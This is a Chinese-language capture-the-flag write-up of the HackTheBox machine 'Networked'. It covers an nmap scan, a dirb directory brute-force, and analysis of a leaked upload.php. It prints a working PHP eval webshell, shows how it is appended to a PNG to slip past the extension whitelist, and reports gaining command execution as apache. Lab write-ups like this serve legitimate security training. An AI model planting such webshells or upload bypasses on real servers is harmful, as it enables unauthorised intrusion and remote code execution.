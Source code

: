 # Networked

## 列举

我们首先枚举开放端口，然后深入到每个服务以获取更多信息

### Nmap 端口扫描

{% code-tabs %}
{% code-tabs-item title="\`nmap\`" %}
```text
root@kali:~# nmap -A 10.10.10.146
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-24 15:24 CST
Nmap scan report for 10.10.10.146
Host is up (0.30s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https
Aggressive OS guesses: Linux 4.4 (90%), Crestron XPanel control system (88%), Linux 3.10 - 4.11 (88%), Linux 3.13 (88%), Linux 3.13 or 4.2 (88%), Linux 4.1 (88%), Linux 4.10 (88%), Linux 4.2 (88%), Asus RT-AC66U WAP (88%), HP P2000 G3 NAS device (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   298.22 ms 10.10.14.1
2   298.38 ms 10.10.10.146

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.50 seconds

```
{% endcode-tabs-item %}
{% endcode-tabs %}

能够发现开放web服务、ssh服务

访问首页[http://10.10.10.146](http://10.10.10.146)

{% code-tabs %}
{% code-tabs-item title="index.html" %}
```markup
root@kali:~# curl http://10.10.10.146
<html>
<body>
Hello mate, we're building the new FaceMash!</br>
Help by funding us and be the new Tyler&Cameron!</br>
Join us at the pool party this Sat to get a glimpse
<!-- upload and gallery not yet linked -->    //该处提示到 upload 和 gallery
</body>
</html>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

### Dirb 目录爆破

{% code-tabs %}
{% code-tabs-item title="dirb" %}
```text
root@kali:~# dirb http://10.10.10.146

​
-----------------
DIRB v2.22    
By The Dark Raver
-----------------
​
START_TIME: Thu Oct 24 15:29:12 2019
URL_BASE: http://10.10.10.146/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
​
-----------------
​
GENERATED WORDS: 4612                                                          
​
---- Scanning URL: http://10.10.10.146/ ----
==> DIRECTORY: http://10.10.10.146/backup/                                     
+ http://10.10.10.146/cgi-bin/ (CODE:403|SIZE:210)                             
+ http://10.10.10.146/index.php (CODE:200|SIZE:229)   
```
{% endcode-tabs-item %}
{% endcode-tabs %}

爆破网站后台，发现链接[http://10.10.10.146/backup/](http://10.10.10.146/backup/)

![](.gitbook/assets/1572254855159.png)

获取backup.tar，内部文件基本与提示相符合

![](.gitbook/assets/1572255091608.png)

查阅以上四个文件信息

### 文件上传

分析upload.php 文件上传限制

{% code-tabs %}
{% code-tabs-item title="upload.php" %}
```text
if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';

      displayform();
    }
```
{% endcode-tabs-item %}
{% endcode-tabs %}

该处对文件大小进行限制小于60000 报错，**CONTENT-LENGTH**验证

{% code-tabs %}
{% code-tabs-item title="upload.php" %}
```text
    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"
];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }
​
```
{% endcode-tabs-item %}
{% endcode-tabs %}

该处`$validext = array('.jpg', '.png', '.gif', '.jpeg');`,对上传的文件类型进行白名单限制

采用图片马上传,创建`shell.php`

{% code-tabs %}
{% code-tabs-item title="编写PHP一句话木马" %}
```text
<?php 
    @eval($_POST['pass']);
    phpinfo(); 
?>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="生成图片马" %}
```text
root@kali:~/桌面# cat 127_0_0_3.png shell.php > hack2.php

```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](.gitbook/assets/1571987151404.png)

通过burp修改数据包，将后缀修改为php.jpg 成功上传

![](.gitbook/assets/1571985407088.png)

访问图片马所在位置，[http://10.10.10.146/uploads/10\_10\_14\_6.php.jpg](http://10.10.10.146/uploads/10_10_14_6.php.jpg)

![](.gitbook/assets/1571985453841.png)

验证成功，使用`webshell`管理工具进行连接

## 开发

### 生根

![](.gitbook/assets/1571985595114.png)

成功连接，并且能够命令执行

![](.gitbook/assets/1571991084791.png)

当前获得apache权限，权限低于普通用户guly

当前暂无进一步提权思路，放置于此。待成功后继续编写.

